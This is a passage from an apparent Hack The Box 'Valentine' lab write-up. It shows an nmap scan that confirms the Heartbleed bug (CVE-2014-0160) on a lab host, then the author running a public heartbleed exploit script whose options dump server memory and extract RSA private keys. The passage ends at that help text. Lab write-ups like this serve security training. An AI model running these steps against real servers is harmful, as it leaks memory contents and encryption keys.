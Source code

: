 It's a logo of heartbleed attack! To make sure that the service is vulnerable, we can run another `nmap` scan with `--script=ssl-heartbleed` option. 

{% highlight bash %}
root@kali:~/hackthebox/valentine# nmap -p 443 -sV --script=ssl-heartbleed 10.10.10.79
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-09 10:53 EDT
Nmap scan report for 10.10.10.79
Host is up (0.038s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://cvedetails.com/cve/2014-0160/
|       http://www.openssl.org/news/secadv_20140407.txt 
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
{% endhighlight %}

I decided to try out two tools - [this](https://gist.github.com/eelsivart/10174134) python script exploiting this vulnerability and `metasploit` to try and gather as much information as possible. 

{% highlight bash %}
root@kali:~/hackthebox/valentine# touch heartbleed.py 
root@kali:~/hackthebox/valentine# vi heartbleed.py 
root@kali:~/hackthebox/valentine# python heartbleed.py 

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display